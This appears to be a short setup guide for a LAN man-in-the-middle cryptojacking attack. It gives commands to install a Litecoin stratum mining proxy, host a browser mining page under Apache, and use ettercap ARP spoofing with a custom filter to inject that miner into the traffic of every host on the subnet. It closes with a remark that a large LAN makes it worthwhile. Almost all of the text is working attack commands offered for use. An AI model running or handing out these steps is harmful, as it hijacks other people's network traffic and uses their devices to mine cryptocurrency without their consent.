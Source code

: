Install some dependancies:
apt-get install python2.7 devscripts debhelper pbuilder python-twisted python-dev python-setuptools python-autobahn libapache2-mod-php5 php5-curl ettercap apache2

setup stratum-mining-proxy:

git clone https://github.com/slush0/stratum-mining-proxy
git clone https://github.com/slush0/stratum
cd stratum && ./setup.py develop
cd ..
cd stratum-mining-proxy && distribute_setup.py; chmod u+x setup.py; ./setup.py develop; mkdir log;
./mining_proxy.py -o ltc.ghash.io -p 3333 -sh 127.0.0.1 -oh 127.0.0.1  -cu up100454499.Web -cp yourpass -st -l log.txt
move lm to your apache directory.
cp lm /var/www/html -R
/etc/init.d/apache2 restart
etterfilter nethash.etterfilter -o nh.ef
ettercap -T -M arp:remote -q -F nh.ef /192.168.0.1/ //

Test it by going to 127.0.0.1/lm

NOTE: You need a pretty large LAN for this to be worth it.  This mines with 4 cpu threads by default.
